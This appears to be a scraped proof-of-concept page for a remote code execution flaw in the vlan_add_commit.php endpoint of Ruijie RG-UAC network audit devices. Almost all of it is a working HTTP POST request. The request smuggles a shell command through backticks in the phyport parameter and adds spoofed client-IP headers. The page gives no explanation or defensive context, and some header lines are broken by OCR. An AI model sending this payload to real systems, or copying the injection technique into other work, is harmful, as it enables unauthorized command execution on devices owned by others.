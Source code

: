 # RG-UAC_vlan_add_commit.php_RCE

from: https://github.com/wy876/POC/blob/main/%E9%94%90%E6%8D%B7RG-UAC%E7%BB%9F%E4%B8%80%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E5%AE%A1%E8%AE%A1%E7%B3%BB%E7%BB%9Fvlan_add_commit.php%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.md

```
POST /view/networkConfig/vlan/vlan_add_commit.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,imag
e/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en�US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

phyport=`id+>2.txt`&vlanid=1
```
